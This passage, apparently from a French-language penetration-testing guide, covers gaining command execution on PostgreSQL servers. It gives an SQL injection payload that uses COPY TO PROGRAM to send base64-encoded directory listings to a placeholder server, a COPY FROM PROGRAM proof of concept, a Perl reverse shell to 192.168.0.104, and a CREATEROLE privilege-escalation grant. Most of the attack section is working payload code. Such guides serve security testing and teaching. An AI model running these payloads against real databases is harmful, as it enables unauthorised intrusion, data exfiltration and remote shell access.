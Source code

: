 Vous pouvez également devenir superadmin en modifiant la table `pg_authid`. **Voir** [**la section suivante**](pentesting-postgresql.md#privesc-by-overwriting-internal-postgresql-tables).

## RCE

### **RCE pour programme**

Depuis [la version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), seuls les **super utilisateurs** et les membres du groupe **`pg_execute_server_program`** peuvent utiliser copy pour RCE (exemple avec exfiltration :
```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```
Exemple d'exécution :
```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
> [!WARNING]
> N'oubliez pas que si vous n'êtes pas super utilisateur mais que vous avez les permissions **`CREATEROLE`**, vous pouvez **vous rendre membre de ce groupe :**
>
> ```sql
> GRANT pg_execute_server_program TO username;
> ```
>
> [**Plus d'infos.**](pentesting-postgresql.md#privilege-escalation-with-createrole)

Ou utilisez le module `multi/postgres/postgres_copy_from_program_cmd_exec` de **metasploit**.\
Plus d'informations sur cette vulnérabilité [**ici**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). Bien que signalée comme CVE-2019-9193, Postges a déclaré que c'était une [fonctionnalité et ne sera pas corrigée](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).

### RCE avec les langages PostgreSQL

{{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md
{{#endref}}

### RCE avec les extensions PostgreSQL

Une fois que vous avez **appris** dans le post précédent **comment télécharger des fichiers binaires**, vous pourriez essayer d'obtenir **RCE en téléchargeant une extension postgresql et en la chargeant**.
